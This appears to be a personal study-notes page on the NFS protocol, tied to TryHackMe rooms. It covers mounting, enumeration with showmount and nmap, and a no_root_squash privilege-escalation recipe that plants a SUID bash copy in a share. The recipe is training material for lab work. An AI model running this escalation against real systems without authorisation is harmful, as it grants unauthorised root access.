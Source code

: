# Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

<div class="row row-cols-md-2 mt-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

Remote Procedure Calls (RPC) are used to exchange with the server.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
#  sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ -nolock
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-md-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

NFS

* nfs-utils
* rpcinfo
* nfsstat
* nfswatch
* DoS
</div><div>
</div></div>